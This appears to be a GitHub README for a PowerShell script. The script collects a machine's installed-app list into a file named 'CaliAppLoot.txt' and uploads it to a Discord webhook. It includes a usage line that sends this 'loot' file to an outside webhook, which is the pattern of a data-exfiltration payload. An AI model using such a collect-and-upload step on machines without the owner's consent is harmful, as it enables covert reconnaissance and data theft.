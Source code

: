 ![](https://img.shields.io/badge/-PowerShell-blue)


Description

This PowerShell script provides two functions: Get-AppInfo and Upload-Discord. The Get-AppInfo function retrieves information about the installed applications on the local machine and saves the results to a temporary file. The Upload-Discord function allows you to upload the generated file or send a custom message to a Discord channel through a webhook.
Prerequisites

Before using this script, ensure you have the following:

    PowerShell: The script requires PowerShell to be installed on your system. It is included by default in Windows systems.

    Discord Webhook: You need a Discord webhook URL to use the Upload-Discord function. You can create a webhook in your Discord server by following these steps:
        Go to your Discord server settings.
        Click on "Integrations" on the left sidebar.
        Under the "Webhooks" section, click "Create Webhook" and follow the instructions to set it up. Copy the webhook URL provided.



Usage

    Collect App Information: The Get-AppInfo function will be used to collect information about the installed applications on your local machine. It will generate a file called "CaliAppLoot.txt" in the system's temporary directory. This file will contain details about the installed Appx packages.

Get-AppInfo


The generated file will be saved in the temporary directory of your system, and its path will be displayed after execution.

Upload to Discord: The Upload-Discord function allows you to upload the generated file or send a custom message to a Discord channel using the webhook URL.

# Upload file to Discord
Upload-Discord -webhookUrl 'YOUR WEBHOOK HERE' -file "$env:TEMP\CaliAppLoot.txt"

    Replace 'YOUR WEBHOOK HERE' with the actual webhook URL you obtained from Discord.

Important Notes

    Make sure to provide a valid webhook URL when using the Upload-Discord function; otherwise, it will not work correctly.

    The Upload-Discord function can handle either a file or a text message. You can choose to use either option based on your needs.

    Please use this script responsibly and ensure that you have the necessary permissions to collect and share application information.

    The script was designed to work on Windows systems, where PowerShell is available by default. It may not be compatible with other operating systems.
